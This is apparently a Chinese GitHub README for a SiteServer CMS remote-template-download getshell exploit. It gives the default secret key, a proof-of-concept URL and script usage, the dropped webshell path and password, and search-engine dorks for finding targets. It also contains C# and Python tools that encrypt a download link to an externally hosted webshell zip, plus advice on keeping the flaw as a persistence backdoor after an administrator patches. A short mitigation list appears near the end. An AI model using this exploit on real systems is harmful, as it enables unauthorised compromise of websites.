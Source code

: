 ## SiteServer-CMS-Remote-download-Getshell-vulnerability

SiteServer CMS 远程模板下载Getshell漏洞

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/598750731.jpg)

漏洞缺陷是由于后台模板下载位置未对用户权限进行校验，且 ajaxOtherService中的downloadUrl参数可控，导致getshell，目前经过测试发现对5.0版本包含5.0以下通杀.先调用了DecryptStringBySecretKey函数将downloadurl先进行了解密，之后调用SiteTemplateDownload函数进行模板下载并自解压。

且SecretKey在5.0是默认值
> vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5

### References

Author:1u0hun

[简记野生应急捕获到的siteserver远程模板下载Getshell漏洞](https://www.freebuf.com/articles/web/195105.html)



### Affected Version

SiteServerCMS 6.x（需要且SecretKey.Tips:查看web.config获取SecretKey，因为6.x的密钥是随机生成的，这里可以用作维持权限后门使用，即通过其他手段进去了，但管理员根据日志找到你进去的漏洞，修复后，可以再次通过此漏洞获取Webshell.或者你有其他办法能把SecretKey的值读取出来也可以组合使用.突然间关注这漏洞的人多了,这行属于另外再添加的.2020/02/26.）

SiteServerCMS 5.x

SiteServerCMS 4.x(测试没通过)

### PoC
Author:We1h0@PoxTeam

> http://localhost/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0&directoryName=sectest


```
python2 poc.py -u http://localhost
```
![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/494367940.jpg)

```
python2 poc.py -f url.txt
```

Ps:注意最后面没/

WebShell:http://localhost/SiteFiles/SiteTemplates/sectest/include.aspx

PassWord:admin



### 搜索引擎关键字:

inurl:/sitefiles/services

inurl:/siteserver/login.aspx

### 临时修复方案
修改 

> 1.修改C:/WebSite/SiteFiles/Configuration/Configuration.config文件里secretKey的值

> 2.然后修改根目录web.config下的DatabaseType/ConnectionString值都是通过下面的加密工具进行加密的字符串.

> 3.更改后台地址

> 4.更改(或移除模板下载功能)/SiteServer/Ajax/ajaxOtherService.aspx路径

### downloadUrl加密工具
#### C#
[VSCODE配置C#](https://blog.csdn.net/qq_40346899/article/details/80955788)

<CODE>dotnet new console -o test</CODE>

<CODE>dotnet run</CODE>
生成目录后的Program.cs替换以下代码

1.然后修改_inputString的值(你指定的下载地址)
```C#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/webshell/poxteam.zip";
        var _outString = ""; var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try{ 
           var byKey = Encoding.UTF8.GetBytes(_encryptKey.Length > 8 ? _encryptKey.Substring(0, 8) : _encryptKey); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Encoding.UTF8.GetBytes(_inputString); 
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateEncryptor(byKey, iv), CryptoStreamMode.Write);     cs.Write(inputByteArray, 0, inputByteArray.Length);
         cs.FlushFinalBlock();
          _outString = Convert.ToBase64String(ms.ToArray()); 
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/545223712.jpg)

2.把出来的结果丢这里

Python

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw=="
str_decry = str_decry.replace("+", "0add0").replace("=", "0equals0").replace("&", "0and0").replace("?", "0question0").replace("/", "0slash0")

print str_decry
```


![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1853999564.jpg)

得出转义后的下载链接，修改Poc.py 

<code>/SiteServer/Ajax/ajaxOtherService.aspx?type=SiteTemplateDownload&userKeyPrefix=test&downloadUrl=这里&directoryName=sectest</code>

### downloadUrl解密工具

(也可以用来解web.config的数据库链接信息,密钥不变的情况下,如果密钥变了找SiteFiles/Configuration/Configuration.config的secretKey的值)

1.先用python的还原

```python
str_decry = "aZlBAFKTavCnFX10p8sNYfr9FRNHM0slash0XP8EW1kEnDr4pNGA7T2XSz0yCY0add0MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ0add0gNU9tDxOqBwAd37smw0equals00equals0"
str_decry = str_decry.replace("0add0", "+").replace("0equals0", "=").replace("0and0", "&").replace("0question0", "?").replace("0slash0", "/")

print str_decry

```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1213922991.jpg)

2.再用c#以下的代码还原回默认下载链接

```c#
using System; 
using System.IO; 
using System.Security.Cryptography; 
using System.Text; 
namespace EncryptApplication 
{ class Encrypt 
    { static void Main(string[] args) 
      { 
        var _encryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5"; 
        var _decryptKey = "vEnfkn16t8aeaZKG3a4Gl9UUlzf4vgqU9xwh8ZV5";
        var _inputString = "aZlBAFKTavCnFX10p8sNYfr9FRNHM/XP8EW1kEnDr4pNGA7T2XSz0yCY+MS3NiuXiz7rZruw8zMDybqtdhCgxw7u0ZCkLl9cxsma6ZWqYd0G56lB6242DFnwb6xxK4AudqJ+gNU9tDxOqBwAd37smw==";
        var _outString = ""; 
        var _noteMessage = "";
        byte[] iv = { 0x12, 0x34, 0x56, 0x78, 0x90, 0xAB, 0xCD, 0xEF };
        try
        { 
          var byKey = Encoding.UTF8.GetBytes(_decryptKey.Substring(0, 8)); 
          var des = new DESCryptoServiceProvider(); 
          var inputByteArray = Convert.FromBase64String(_inputString);
          var ms = new MemoryStream(); 
          var cs = new CryptoStream(ms, des.CreateDecryptor(byKey, iv), CryptoStreamMode.Write);
              cs.Write(inputByteArray, 0, inputByteArray.Length);
              cs.FlushFinalBlock();
          Encoding encoding = new UTF8Encoding();
          _outString = encoding.GetString(ms.ToArray());
         Console.WriteLine("DesEncrypt:"); Console.WriteLine(_outString); }
      catch (Exception error) { _noteMessage = error.Message; } 
 } } }
 
```

![avatar](https://raw.githubusercontent.com/zhaoweiho/SiteServerCMS-Remote-download-Getshell/master/img/1818119636.jpg)
